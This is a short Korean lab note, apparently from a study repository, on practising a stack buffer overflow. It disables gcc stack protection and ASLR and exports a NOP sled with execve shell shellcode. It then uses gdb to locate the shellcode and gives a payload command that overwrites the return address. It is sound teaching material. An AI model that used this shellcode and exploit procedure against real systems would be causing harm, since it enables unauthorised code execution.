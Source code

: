 #+TITLE: Buffer Overflow 공격 실습

* 버퍼 오버플로우 실습을 위한 설정
** gcc 컴파일러 설정
| option                       | description                                 |
|------------------------------+---------------------------------------------|
| -fno-stack-protector         | 스택 보호 기능(canary) 끄기                 |
| -mpreferred-stack-boundary=4 | 스택 바운더리 크기, 64비트 환경에서는 4로 지정한다. |
| -z execstack                 | 스택 실행가능하게(?)                        |
|                              |                                             |


위의 옵션을 사용한 컴파일 예
#+BEGIN_SRC bash
gcc -fno-stack-protector -mpreffered-stack-boundary=4 -z execstack shell.c -o shell
#+END_SRC

** ASLR 끄기
셸에서 다음 명령어를 실행한다.
#+BEGIN_SRC bash
sysctl -w kernel.randomize_va_space=0
#+END_SRC


* 셸 코드 환경변수 만들기
- 0x90 은 NOP (아무것도 하지 않음, No Operation) 을 의미함
- Nop 코드 다음에 셸코드를 삽입한다. 
- 셸 코드는 이곳을 참고 [fn:1]

#+BEGIN_SRC bash
export SHELLCODE=`perl -e 'print "\x90" x 2000, "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
#+END_SRC

* 실습 과정 요약
1) 셸코드 환경변수를 export 한다. (export 하면 메모리 상의 어딘가에 존재하고 있을 것이다.)

2) overflow 프로그램을 gdb 로 실행한다. 이 때 목적은 export 한 셸코드의 대략적인 주소를 알아내는 것이다. 
2-1) 메인함수에 브레이크 포인트를 건 다음 run 
2-2) x/100a $rsp 명령 실행 (메모리의 값을 확인) 해서 SHELLCODE 에서 실제 셸코드가 있는 주소에서 조금 전의 주소를 알아낸다.

3) 위의 주소를 토대로 공격 페이로드를 만들어서 overflow 프로그램에 전달한다. 

다음과 같은 명령이 사용된다. 

./overflow `perl -e 'print "X" x 24, "\x88\xeb\x.."'` // 위어에 얻어낸 주소를 리틀엔디언 방식으로 표현


* Ref
https://www.youtube.com/watch?v=eJWlg-VoCBg&list=PLRx0vPvlEmdAXwJnNtKIVeC27UmwljRYA&index=13
[fn:1] http://shell-storm.org/shellcode/files/shellcode-806.php
